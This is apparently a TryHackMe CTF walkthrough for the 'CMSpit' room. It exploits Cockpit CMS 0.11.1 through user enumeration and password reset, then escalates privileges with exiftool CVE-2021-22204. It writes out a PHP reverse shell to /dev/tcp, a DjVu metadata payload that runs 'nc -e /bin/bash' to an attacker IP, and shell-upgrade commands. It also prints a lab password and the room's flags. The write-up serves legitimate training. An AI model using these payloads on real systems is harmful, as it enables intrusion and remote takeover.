# CMSpit Tryhackme walkthrough

---

Semi-guided challenge medium level (privesc required) difficulty.



#### **Step 1: nmap**


```bash
nmap -sC -sV -A 10.67.178.92
```


Port 80 and 22 are opened.



After going to the browser and checking port 80 (http) we can see that there is Cockpit running:



What is the name of the Content Management System (CMS) installed on the server?

The application running is Cockpit

#### **Step 2: view-source**

Right click — view-source reveals the version



What is the version of the Content Management System (CMS) installed on the server?

0.11.1

#### **Step 3: Dev Tools**

What is the path that allow user enumeration?

First we need to open up DevTools (right click > Inspect) and put admin:admin in a login form (sending POST request)



Navigating to Network we can see that the answer is auth/check:



#### **Step 4: searchploit**

We can use searchploit to find an exploit that can help answer the next question


```text
searchsploit -m cockpit
```




As we can see our version of Cockpit is 0.11.1, so we need an exploit 50185.py. We will download it to our system.


```text
searchploit -m 50185.py
```




If we cat the exploit, we will see the instruction inside: def usage():



We need to do the following:


```bash
python3 50185.py -u http://10.65.162.48
```




How many users can you identify when you reproduce the user enumeration attack?

4

The next question is:

What is the path that allows you to change user account passwords?

For that we will check the exploit again



As we may see, the answer is /auth/resetpassword

#### **Step 5: Access to Cockpit**

Following the exploit, we will discover skidy’s email:



Compromise the Content Management System (CMS). What is Skidy’s email.

[**skidy@tryhackme.fakemail**](mailto:skidy@tryhackme.fakemail)

Next, we will do the same and reset the password for admin



After resetting the password, we can login in Cockpit



Then we choose Finder



and get our webflag





#### **Step 6: database**

Compromise the machine and enumerate collections in the document database installed in the server. What is the flag in the database?

Because we have an access to Cockpit, we upload a reverse shell to gain remote access from our Kali machine. I create a nano file revershell.php and will paste this:


```php
<?php
exec
(
"/bin/bash -c 'bash -i >& /dev/tcp/10.65.72.238/1234 0>&1'"
);
?>
```




And then upload it to Cockpit



Now it is here



Let’s set up a listener in Kali:


```yaml
rlwrap nc -lvnp 1234
```


Then trigger the shell, putting in browser:

<http://10.67.178.92/reverseshell.php>



We got a connection in our Listener:



Time to search for the flag in the database:


```bash
ls -la /home
```

```bash
ls -la /home/stux
```


We need to open the file .dbshell. This file stores MongoDB shell history, which may contain credentials or sensitive queries.




```bash
cat /home/stux/.dbshell
```




The flag is here: thm{c3d1af8da23926a30b0c8f4d6ab71bf851754568}

NB: take a note of “stux” and password. We will need it.

#### **Step 7: user.txt through stux**

We can escalate privileges now and become stux to get access to user.txt because we can spawn in



Let’s stabilize the shell first


```bash
python3 -c ‘import pty; pty.spawn(“/bin/bash”)’
export
 TERM=xterm
```


now we need to Background it:


```text
Ctrl + Z
```


As we can see the session stopped. Let’s do the trick:


```bash
stty raw -echo; fg
```


Changing the user:


```text
su stux
```

```text
p4ssw0rdhack3d!123
```


This upgrades the shell to a fully interactive TTY. After this we can get access to user.txt



The flag is: thm{c5fc72c48759318c78ec88a786d7c213da05f0ce}

#### **Step 8: get root**

After becoming stux, we need to find a vector for privilege escalation.


```bash
sudo -l
```




Exiftool is out great finding — NOPASSWD for root. It means that we can do a command execution via malicious DjVu metadata

What is the CVE number for the vulnerability affecting the binary assigned to the system user? Answer format: CVE-0000–0000

Just Google it



CVE-2021–22204

Let’s read the details:




```bash
cd /home/stux
```


We will create a payload.txt file right in our current stux shell:


```bash
printf ‘(metadata “\\c${system(\\”nc -e /bin/bash 10.65.72.133 1234\\”)};”)’ > payload.txt
```


and compile it:


```javascript
djvumake exploit.djvu INFO=1,1 BGjp=/dev/null ANTa=payload.txt
```




Now we will open another terminal in out Attack box and set up a listener



Come back to the stux shell and trigger exploit.djvu:


```bash
sudo /usr/local/bin/exiftool exploit.djvu
```




Go back to Attack box second terminal and receive a connection as a root:




```bash
cd /root
```




The flag is: thm{bf52a85b12cf49b9b6d77643771d74e90d4d5ada}

